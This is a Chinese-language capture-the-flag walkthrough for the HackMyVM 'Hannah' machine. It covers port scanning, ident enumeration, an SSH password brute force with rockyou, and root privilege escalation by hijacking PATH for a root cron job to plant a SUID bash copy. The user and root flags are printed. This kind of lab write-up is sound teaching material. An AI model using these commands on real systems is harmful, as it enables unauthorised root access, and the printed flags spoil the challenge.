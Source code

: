 # Hannah

2025.02.20 https://hackmyvm.eu/machines/machine.php?vm=Hannah

[video](https://www.bilibili.com/video/BV1xRAEefEmn/?spm_id_from=333.1387.homepage.video_card.click&vd_source=aed2f374c732513d2e535afafb1fd2ec)

## Ip

192.168.5.40

# Scan

```
PORT    STATE SERVICE VERSION
22/tcp  open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
|_auth-owners: root
| ssh-hostkey:
|   3072 5f1c78369905320982d3d5054c1475d1 (RSA)
|   256 0669ef979b34d7f3c79660d1a1ffd82c (ECDSA)
|_  256 853dda74b2684ea6f7e5f58540902e9a (ED25519)
80/tcp  open  http    nginx 1.18.0
|_http-title: Site doesn't have a title (text/html).
| http-robots.txt: 1 disallowed entry
|_/enlightenment
|_auth-owners: moksha
|_http-server-header: nginx/1.18.0
113/tcp open  ident?
|_auth-owners: root
```

80 web robots.txt 显示 /enlightenment 访问后是 404，扫描后也没其他路径。

看看 ident 的功能定义：

```
此包是一个简单的 PERL 脚本，用于查询 ident 服务 (113/TCP)，以确定监听目标系统每个 TCP 端口的进程的所有者。这有助于在渗透测试期间确定目标服务的优先级（您可能希望首先攻击以 root 身份运行的服务）。或者，收集的用户名列表可用于对其他网络服务进行密码猜测攻击。
```

再看 ident 113 端口枚举出来的服务运行用户信息，moksha 和 root，现在有一个用户名，尝试 rockyou 爆破，得到登陆密码: hannah ， ssh 登陆该用户。

得到 user flag：

```
moksha@hannah:~$ cat user.txt
HMVGGHFWP2023
```

/etc/crontab 发现 :

```
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/media:/bin:/usr/sbin:/usr/bin

* * * * * root touch /tmp/enlIghtenment
```

发现 touch 的路径为 /usr/bin/touch ，PATH 中/media 路径在/usr/bin 之前，发现/media 目录权限是 777，可以执行路径劫持：

```
echo 'cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash' > /media/touch
chmod +x /media/touch
```

等待 1 分钟，出现 suid 程序 rootbash，得到 root flag：

```
moksha@hannah:/var/www/html$ /tmp/rootbash -p
rootbash-5.1# cd /root
rootbash-5.1# ls
root.txt
rootbash-5.1# cat root.txt
HMVHAPPYNY2023
```

